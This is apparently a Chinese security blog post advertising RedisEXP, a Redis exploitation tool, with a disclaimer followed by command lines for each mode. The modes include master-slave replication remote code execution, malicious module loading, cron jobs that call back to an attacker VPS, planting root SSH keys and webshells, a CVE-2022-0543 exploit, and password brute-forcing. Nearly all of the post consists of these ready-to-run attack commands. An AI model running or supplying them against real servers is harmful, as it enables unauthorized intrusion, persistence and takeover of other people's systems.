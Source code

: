 #  Redis 漏洞利用工具 -- RedisEXP   
yuyan-sec  网络安全者   2025-02-02 16:01  
  
===================================  
免责声明请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。工具来自网络，安全性自测，如有侵权请联系删除。  
0x01 工具介绍  
Redis 漏洞利用工具。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/0JJXjA8siccwYUcSEibv9UYsy4eVib1k9bedJwnPmibgV3YAJ1libR2Al5oyh7sKcxQBNNUWeAC4ibq2gHGAAUPDTzIw/640?wx_fmt=png&from=appmsg "")  
  
0x02 安装与使用  
基本连接:   
```
RedisExp.exe -r 192.168.19.1 -p 6379 -w 123456
```  
  
执行Redis命令：  
```
RedisExp.exe -m cli -r 192.168.19.1 -p 6379 -w 123456 -c info
```  
  
加载dll或so执行命令：  
```
RedisExp.exe -m load -r 目标IP -p 目标端口 -w 密码 -rf (目标 dll | so 文件名)
RedisEXP.exe -m load -r 127.0.0.1 -p 6379 -rf exp.dll -n system -t system.exec
```  
  
主从复制命令执行：  
```
RedisExp.exe -m rce -r 目标IP -p 目标端口 -w 密码 -L 本地IP -P 本地Port [-c whoami 单次执行] -rf 目标文件名[exp.dll | exp.so (Linux)]
RedisEXP.exe -m rce -r 127.0.0.1 -p 6379 -L 127.0.0.1 -P 2222 -c whoami
RedisEXP.exe -m rce -r 127.0.0.1 -p 6379 -L 127.0.0.1 -P 2222 -c whoami -rf exp.so
```  
  
主从复制上传文件：  
```
RedisExp.exe -m upload -r 目标IP -p 目标端口 -w 密码 -L 本地IP -P 本地Port -rp 目标路径 -rf 目标文件名 -lf 本地文件
RedisEXP.exe -m upload -r 127.0.0.1 -p 6379 -L 127.0.0.1 -P 2222 -rp . -rf 1.txt -lf .\README.md
```  
  
主动关闭主从复制：  
```
RedisExp.exe -m close -r 目标IP -p 目标端口 -w 密码
```  
  
写计划任务：  
```
RedisExp.exe -m cron -r 目标IP -p 目标端口 -w 密码 -L VpsIP -P VpsPort
RedisEXP.exe -m cron -r 192.168.1.8 -p 6379 -L 192.168.1.8 -P 9001
```  
  
写SSH 公钥：  
```
RedisExp.exe -m ssh -r 目标IP -p 目标端口 -w 密码 -u 用户名 -s 公钥
RedisEXP.exe -m ssh -r 192.168.1.8 -p 6379 -u root -s ssh-aaaaaaaaaaaaaa
```  
  
写webshell：  
```
RedisExp.exe -m shell -r 目标IP -p 目标端口 -w 密码 -rp 目标路径 -rf 目标文件名 -s Webshell内容 [base64内容使用 -b 来解码]
RedisEXP.exe -m shell -r 127.0.0.1 -p 6379 -rp . -rf shell.txt -s MTIzNA== -b
```  
  
CVE-2022-0543：  
```
RedisExp.exe -m cve -r 目标IP -p 目标端口 -w 密码 -c 执行命令
```  
  
爆破Redis密码：  
```
RedisExp.exe -m brute -r 目标IP -p 目标端口 -f 密码字典
RedisEXP.exe -m brute -r 127.0.0.1 -p 6378 -f pass.txt
```  
  
生成gohper：  
```
RedisExp.exe -m gopher -r 目标IP -p 目标端口 -f gopher模板文件
```  
  
执行 bgsave：  
```
RedisExp.exe -m bgsave -r 目标IP -p 目标端口 -w 密码
```  
  
判断文件（需要绝对路径）：  
```
RedisExp.exe -m dir -r 目标IP -p 目标端口 -w 密码 -rf c:\windows\win.ini
```  
  
  
  
  
  
  
**·****今 日 推 荐**  
**·**  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/0JJXjA8siccwYUcSEibv9UYsy4eVib1k9benmib7GQvePmd7fJeWg5XvyfHnibaz4dibuUtI0RxCD8ibwtxhUCupxTaUA/640?wx_fmt=png&from=appmsg "")  
  
  
